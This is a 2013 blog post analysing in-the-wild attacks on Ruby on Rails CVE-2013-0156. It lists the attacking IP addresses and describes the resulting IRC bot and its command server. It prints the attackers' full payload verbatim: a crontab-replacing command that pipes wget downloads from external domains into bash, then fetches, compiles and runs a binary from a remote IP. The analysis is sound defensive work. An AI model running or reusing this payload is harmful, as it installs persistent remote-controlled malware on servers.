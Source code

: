 ```yaml
---
layout: post
title: "RoR CVE-2013-0156 In the Wild"
date: 2013-05-28 08:09
comments: true
categories: 
---
```


Ruby on Rails CVE-2013-0156 has recently been [exploited in the wild](https://gist.github.com/ismasan/5647955).  This vulnerability was the subject of much discussion, and an [emergency RoR advisory](http://weblog.rubyonrails.org/2013/1/28/Rails-3-0-20-and-2-3-16-have-been-released/) back in January.  It's pretty suprising that it's taken this long to surface in the wild, but less suprising that people are still running vulnerable installations of Rails.  It also appears to be affected some [web hosts](http://forums.cpanel.net/f185/wget-abuse-hack-340232.html)

Exploit activity is reportedly sourcing from 
* 88.198.20.247
* 95.138.186.181
* 188.190.126.105

The payload consists of the following;

```
crontab -r; echo \"1 * * * * wget -O - colkolduld.com/cmd1|bash;wget -O - lochjol.com/cmd2|bash;wget  -O - ddos.cat.com/cmd3|bash;\"|crontab -;wget http://88.198.20.247/k.c -O /tmp/k.c; gcc -o /tmp/k /tmp/k.c; chmod +x /tmp/k; /tmp/k||wget http://88.198.20.247/k -O /tmp/k && chmod +x /tmp/k && /tmp/k
```



This adds a command to crontab which downloads and executes files called cmd1, cmd2, and cmd3.  At the time of this writing, these are no longer available.  These [domains](http://google.com.au/safebrowsing/diagnostic?site=lochjol.com/) have been previously associated with [supsicious activity](https://www.virustotal.com/en/file/06497ee2952ee418efa543c100d1742e320cdbf91034333a88cda3facde9a8c6/analysis/)

Next, it downloads a C source file called k.c to /tmp, compiles it using the system's gcc, and executes it.

Finally, it downloads and executes a pre-compiled version of k, presumably in case compilation fails.

The source of k.c is available.

This file executes with a name of '- bash' which will appear in the processlist.  It sets up an IRC bot, which connects to either cvv4you.ru (currently 188.190.124.81) or the bare IP 188.190.124.120 and joins the channel #rails.  While the code supports it, no channel key is used.  THe script uses a randomly generated 9 character nickname when connecting to IRC.

A lockfile '/tmp/tan.pid' ensures the bot only executes once on an infected host.

Functionality is limited, but includes the ability to download and execute files as commanded, as well as changing servers.  There's no authentication performed, so an enterprising individual could hijack these bots fairly easily by joining the IRC server and issuing the appropriate commands.

